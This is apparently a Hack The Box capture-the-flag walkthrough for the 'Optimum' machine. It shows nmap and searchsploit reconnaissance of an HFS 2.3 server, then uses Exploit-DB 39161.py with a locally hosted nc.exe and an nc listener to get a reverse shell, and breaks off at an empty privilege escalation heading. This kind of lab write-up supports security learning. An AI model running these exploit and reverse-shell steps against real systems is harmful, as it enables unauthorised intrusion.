 # Optimum 

![Optimum](profile.png) 


## Summary

* Windows Server 2012 R2 with a file server running on port 80
* RCE exists for the file server, HFS 2.3
* Simple web server to host nc.exe and a python script is enough to get a reverse shell

## Tools needed

* Python with http.server module
* searchsploit
* nc


## Detection 

Start with nmap

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 21:46 CDT
Nmap scan report for 10.10.10.8
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 (88%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds
```

OS best guess is `Microsoft Windows 2012|Vista|2008|7`.  Open port is 80 and it's an HTTP File Server.  Let's start at the port.

```
curl -I 10.10.10.8:80
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.492714939173311; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

curl confirms the server version as `HFS 2.3`.  Let's check the web interface.

![hfs](hfs.png) 

Clicking around there are quite a few areas we could try to gain a foothold.  However, given this is old software, let's check searchsploit first.

```
searchsploit hfs 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                 | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hard to pass up trying an RCE with Python, so let's try 39161.py.

## Exploit

```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/htb/optimum/39161.py
```
Checking the code, we need to get nc.exe ready for upload to the target server and the author expects it to be locally hosted, specifically http://&lt;local IP&gt;:80/nc.exe.

```
#find / | grep -i nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

#mkdir web
#cp /usr/share/windows-resources/binaries/nc.exe web/.
#cd web
#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
```

Let's test the makeshift web server first ...

```
#curl 10.10.14.5:80/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  11.3M      0 --:--:-- --:--:-- --:--:-- 11.3M 

-------------------------------------------------------------------------------

#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
10.10.14.5 - - [10/Oct/2020 23:08:40] "GET /nc.exe HTTP/1.1" 200 -
```

File was downloaded, so it's working.  After fixing the hard-coded local IP and listener port in 39161.py, we're ready to execute.

```
#python 39161.py 10.10.10.8 80

-------------------------------------------------------------------------------

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```

For some reason the first execution of 39161.py didn't take.  On the second attempt is when I got the shell.


## Privilege Escalation






